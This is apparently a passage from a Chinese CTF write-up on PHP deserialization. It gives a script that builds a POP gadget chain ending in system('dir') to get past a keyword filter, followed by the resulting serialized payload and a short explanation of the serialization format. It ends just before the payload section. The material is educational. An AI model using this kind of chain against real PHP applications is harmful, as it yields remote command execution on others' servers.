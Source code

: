 ```php
//查看目录的exp
<?php
  error_reporting(0);
class Welcome{
  public $name='A_G00d_H4ck3r';
  public $arg = 'welcome';
  public function __construct(){
    $this->name = 'A_G00d_H4ck3r';
  }
  public function __destruct(){
    if($this->name == 'A_G00d_H4ck3r'){
      echo $this->arg;
    }
  }
}
class G00d{
  public $shell='system';             //外部命令执行函数
  public $cmd='dir';									//外部命令执行函数
  public function __invoke(){
    $shell = $this->shell;
    $cmd = $this->cmd;
    if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){  //正则匹配表达式
      die("U R A BAD GUY");
    }
    eval($shell($cmd));
  }
}
class H4ck3r{
  public $func;
}
$A=new Welcome();				//实例化
$B=new G00d();					//实例化
$C=new H4ck3r();				//实例化
$A->arg=$C;							//pop攻击链
$C->func=$B;						//pop攻击链
echo serialize($A);     //序列化对象
?>
```

查看目录exp:

序列化后

```php
O:7:"Welcome":2:{s:4:"name";s:13:"A_G00d_H4ck3r";s:3:"arg";O:6:"H4ck3r":1:{s:4:"func";O:4:"G00d":2:{s:5:"shell";s:6:"system";s:3:"cmd";s:3:"dir";}}}
```

*序列化就是把类里面的对象转化成字符串形式（包括对象名、对象属性、对象字符、对象值等等）
反之反序列化就是把字符串还原为对象*

其中O就是类，7代表"Welcome"为7个字符，s代表str字符串类型，反之i代表的就是int整形,以此类推

构造payload：

